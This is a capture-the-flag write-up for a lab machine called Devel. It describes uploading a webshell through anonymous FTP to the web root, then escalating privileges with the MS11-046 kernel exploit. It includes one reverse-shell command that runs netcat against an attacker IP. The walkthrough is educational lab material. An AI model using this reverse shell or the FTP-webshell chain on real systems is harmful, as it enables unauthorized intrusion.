

# Devel

## Summary

**Vulnerability Exploited:** Arbitrary File Upload

**Vulnerability Explanation:** FTP allows anonymous login and arbitrary file upload to the web root. This makes it trivial to upload a webshell.

**Privilege Escalation Vulnerability:** Windows x86 AFD Privilege Escalation (MS11-046)

## Penetration

We begin with an nmap port scan.

Nmap has already found everything needed for an initial foothod: FTP allows anonymous login, and it is apparently aligned with the HTTP server web root. This means we can upload a web shell to the HTTP server through FTP without needing a username or password. We can also upload a netcat executable so that we can get a normal reverse shell next.

We can see the webshell at http://\<victim ip\>/cmdasp.aspx.

Now we can launch the reverse shell with netcat using the command **C:\InetPub\wwwroot\nc.exe \<attacker ip\> 443 -e C:\Windows\System32\cmd.exe** in the webshell.

It looks like our iis apppool\web user can't even read the user flag. We need to find a way to escalate. After inspecting the box manually and with winpeas.bat, no clever privilege escalation methods stand out to us. (We have SeImpersonatePrivilege but don't seem to have system token available for impersonation.) Thus we turn to kernel exploits. The easiest way to find an exploit for this operating system is just to Google it.

Google points us to a promising exploit from ExploitDB. We can compile it locally and upload it through FTP.

We run the exploit on the victim and get a system shell.

We can now read all the flags.

